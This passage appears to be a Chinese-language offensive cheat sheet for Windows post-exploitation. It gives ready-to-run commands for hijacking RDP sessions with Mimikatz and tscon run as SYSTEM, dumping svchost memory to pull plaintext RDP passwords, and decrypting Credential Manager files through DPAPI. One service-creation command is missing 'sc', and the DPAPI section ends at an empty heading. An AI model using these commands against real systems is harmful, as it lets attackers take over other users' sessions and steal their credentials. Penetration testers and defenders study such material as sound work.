 ## RDP会话接管

使用`ts::multirdp`来修补RDP服务，以允许多于两个用户。

* 启用权限

  ```powershell
  privilege::debug 
  token::elevate 
  ```

* 列出RDP会话

  ```powershell
  ts::sessions
  ```

* 劫持会话

  ```powershell
  ts::remote /id:2 
  ```

以SYSTEM用户身份运行`tscon.exe`，可以无需密码连接到任何会话。

```powershell
# 获取你想要劫持的会话ID
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```

## RDP密码

验证服务是否运行：

```ps1
sc queryex termservice
tasklist /M:rdpcorets.dll
netstat -nob | Select-String TermService -Context 1
```

* 手动提取密码

  ```ps1
  procdump64.exe -ma 988 -accepteula C:\svchost.dmp
  strings -el svchost* | grep Password123 -C3
  ```

* 使用Mimikatz提取密码

  ```ps1
  privilege::debug
  ts::logonpasswords
  ```

## 凭据管理器与DPAPI

```powershell
# 检查文件夹以找到凭据
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# 使用mimikatz检查文件
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# 查找主密钥
$ mimikatz !sekurlsa::dpapi

# 使用主密钥
```